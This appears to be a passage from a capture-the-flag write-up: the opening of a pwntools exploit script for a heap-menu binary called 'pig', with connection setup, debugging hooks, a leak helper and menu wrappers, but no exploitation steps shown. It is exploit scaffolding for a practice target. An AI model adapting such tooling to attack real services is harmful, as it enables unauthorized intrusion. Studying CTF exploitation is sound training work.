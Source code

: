 exp：

```python
#!/usr/bin/python

from pwn import *
import sys
context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='pig'
libc_name='/lib/x86_64-linux-gnu/libc.so.6'


libc=ELF(libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('',)
    
def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(choice):
	sla('Your choice:', str(choice))

def add(idx,sz):
	cho(1)
	sla('Idx:', str(idx))
	sla("Size:", str(sz))

def show(idx):
	cho(2)
	sla('Idx:', str(idx))

def edit(idx, com):
	cho(3)
	sla('Idx:', str(idx))
	sla("context: ", com)

def delete(idx):
	cho(4)
	sla('Idx:', str(idx))

	
```